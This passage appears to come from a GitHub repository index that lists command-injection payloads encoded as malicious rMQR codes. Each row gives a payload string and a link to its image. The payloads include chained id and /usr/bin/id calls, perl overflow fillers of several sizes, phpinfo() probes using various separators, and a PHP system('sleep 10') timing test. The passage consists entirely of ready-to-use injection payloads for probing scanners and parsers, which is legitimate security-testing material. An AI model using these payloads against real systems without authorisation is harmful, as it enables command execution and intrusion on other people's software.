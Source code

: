 | `\nid\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/272.png) |
| `\n/usr/bin/id\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/273.png) |
| `perl -e 'print "X"x1024'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/274.png) |
| `\|\| perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/275.png) |
| `\| perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/276.png) |
| `; perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/277.png) |
| `& perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/278.png) |
| `&& perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/279.png) |
| `perl -e 'print "X"x16384'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/280.png) |
| `; perl -e 'print "X"x2048'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/281.png) |
| `& perl -e 'print "X"x2048'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/282.png) |
| `&& perl -e 'print "X"x2048'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/283.png) |
| `perl -e 'print "X"x2048'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/284.png) |
| `\|\| perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/285.png) |
| `\| perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/286.png) |
| `; perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/287.png) |
| `& perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/288.png) |
| `&& perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/289.png) |
| `perl -e 'print "X"x4096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/290.png) |
| `\|\| perl -e 'print "X"x8096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/291.png) |
| `\| perl -e 'print "X"x8096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/292.png) |
| `; perl -e 'print "X"x8096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/293.png) |
| `&& perl -e 'print "X"x8096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/294.png) |
| `perl -e 'print "X"x8192'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/295.png) |
| `perl -e 'print "X"x81920'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/296.png) |
| `\|\| phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/297.png) |
| `\| phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/298.png) |
| `{${phpinfo()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/299.png) |
| `;phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/300.png) |
| `;phpinfo();//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/301.png) |
| `';phpinfo();//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/302.png) |
| `{${phpinfo()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/303.png) |
| `& phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/304.png) |
| `&& phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/305.png) |
| `phpinfo()` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/306.png) |
| `phpinfo();` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/307.png) |
| `<?php system("sleep 10");?>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/308.png) |